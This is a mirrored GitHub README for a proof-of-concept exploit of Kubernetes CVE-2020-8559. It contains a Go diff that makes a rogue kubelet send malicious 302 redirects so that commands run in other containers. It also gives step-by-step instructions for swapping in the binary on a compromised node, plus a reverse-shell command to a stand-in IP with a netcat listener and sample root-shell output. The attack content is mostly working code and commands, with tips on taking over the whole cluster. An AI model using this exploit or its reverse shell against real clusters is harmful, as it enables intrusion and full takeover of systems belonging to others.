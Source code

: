 # CVE-2020-8559

This is a PoC exploit for CVE-2020-8559 Kubernetes Vulnerability 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/tdwyer](https://github.com/tdwyer) |
| Url      | [https://github.com/tdwyer/CVE-2020-8559](https://github.com/tdwyer/CVE-2020-8559)                                               |
| Stars    | 52                                                          |
| License  | BSD 3-Clause "New" or "Revised" License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Kubernetes CVE-2020-8559 Proof of Concept PoC Exploit

__This is for demonstration purposes only. Only for use on systems you are authorized to preform administrative actions on and are authorized to exploit CVE-2020-8559 on__

This is a PoC for CVE-2020-8559 This vulnerability allows an attacker who has gotten `root` on a Node to execute commands on any other Container in the cluster allowing the attacker to take over the Kubernetes Master Node.

This vulnerability is due to the fact that the Kubernetes API Server and kubectl command will follow HTTP Redirects combined with the fact that the Kubernetes API just puts all of the components of an API request into the URL i.e. Node name, Pod name, Container name, and even the Command. Therefor, if the Kubelet process responds to `/exec`, `/attach`, `/portforward`, or any `resource: proxy` action with a HTTP 302 Redirect with a Location header which says to execute a different command on a different Node in a different Container the Kubernetes API Server or `kubectl` command will happily make a new request for whatever is in the Location header.

## Kubernetes Repo with my PoC Code

You can download my forked version of Kubernetes and switch to my branch to build the exploit `kubelet` binary.  
This branch is based on the `v1.15.9` tag.  

```
git clone -b CVE-2020-8559 --single-branch git@github.com:tdwyer/kubernetes.git
```

## Git diff

```
diff --git a/pkg/kubelet/server/server.go b/pkg/kubelet/server/server.go
index c1f1975fe43..8459802755e 100644
--- a/pkg/kubelet/server/server.go
+++ b/pkg/kubelet/server/server.go
@@ -867,6 +867,28 @@ func (s *Server) ServeHTTP(w http.ResponseWriter, req *http.Request) {

        method, path := req.Method, trimURLPath(req.URL.Path)

+       ////
+       ////
+       // If path is vulnerable to CVE-2020-8559 send 302 redirect with malicious Location header
+       ////
+       ////
+       protocol := "https"
+       // If attacking requests from admins using the kubectl command
+       //     host == hostname of the Kubernetes API server obtained from `kubectl -v 8 get pods`
+       // If attacing the Kubernetes API Server
+       //     host == hostname of the Node the Victim container is running on
+       host := "internal-api-123456-123456789.us-west-2.elb.amazonaws.com"
+       namespace := "kube-system"
+       pod := "kcd-7cfbb97c64-p4kf2"
+       container := "kcd"
+       command := "hostname"
+       if strings.Contains(req.URL.Path, "/exec") || strings.Contains(req.URL.Path, "/attach") || strings.Contains(req.URL.Path, "/portforward") {
+               fmt.Println("--------------------------------------------------------------")
+               fmt.Println("Sending Redirect")
+               fmt.Println("--------------------------------------------------------------")
+               http.Redirect(w, req, protocol+"://"+host+"/api/v1/namespaces/"+namespace+"/pods/"+pod+"/exec?command="+command+"&container="+container+"&stderr=true&stdout=true", 302)
+       }
+
        longRunning := strconv.FormatBool(isLongRunningRequest(path))

        servermetrics.HTTPRequests.WithLabelValues(method, path, serverType, longRunning).Inc()
```

## Configure

This PoC will just send 302 HTTP Redirect with a hard coded Location header, so you will need to edit `kubernetes/pkg/kubelet/server/server.go` and update `host`, `namespace`, `pod`, `container`, and `command`

__ProTip:__ List all of the Pods in the cluster. Then, configure this to execute commands on a Pod running on the Kubernetes Master Node in order start a reverse shell back to you in order to take over the cluster

## Build

After Configuring the attack, build a rogue `kubelet` binary

```
cd ~/go/src/k8s.io/kubernetes
GO111MODULE=on go mod download
cd ~/go/src/k8s.io/kubernetes/cmd/kubelet
go build
```

## Attack

1. Get root on a Node
2. Copy the rogue `kubelet` binary to the Node
3. Stop the `kubelet` process and over-write the binary with the rogue binary  
Find the PID of the `kubelet` process  
`ps aux |grep kubelet`  
Kill the `kubelet` process and copy the rogue binary into place  
`sudo kill $PID ; sudo cp kubelet /usr/local/bin/kubelet`  
4. Kill the `kubelet` process again so that it will re-start with the rogue binary  
Find the PID of the `kubelet` process  
`ps aux |grep kubelet`  
Kill the `kubelet` process  
`sudo kill $PID`  
5. If configured to attack an admin using the `kubectl` command on their local workstation, This command should return the hostname of the Victim Container instead of the container it should have been executed on
```
[0038][tdwyer@tdwyer-nuc:~/CVE-2020-8559]$ kubectl exec attacker-5cf89b94db-xdbfm -- date
kcd-7cfbb97c64-p4kf2
```


You can also start a reverse shell back you from any Container with
1. Start netcat listening on your workstation  
`nc -lv 4444`  
2. Use this command instead however you'll need to encode this. I'll update the exact way after I figure it out.  
`/bin/sh -i >& /dev/tcp/1.2.3.4/4444 0>&1`  

Success :D  
```
[1617][tdwyer@tdwyer-nuc:~]$ nc -lvk 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 9.8.7.6.in-addr.arpa 46828 received!
bash-5.0#
```




## Get the content

```
git clone https://github.com/tdwyer/CVE-2020-8559
cd CVE-2020-8559
```

{% embed url="https://github.com/tdwyer/CVE-2020-8559" %}

<figure><img src="https://avatars.githubusercontent.com/u/3000070?v=4" alt=""><figcaption><p>tdwyer</p></figcaption></figure>
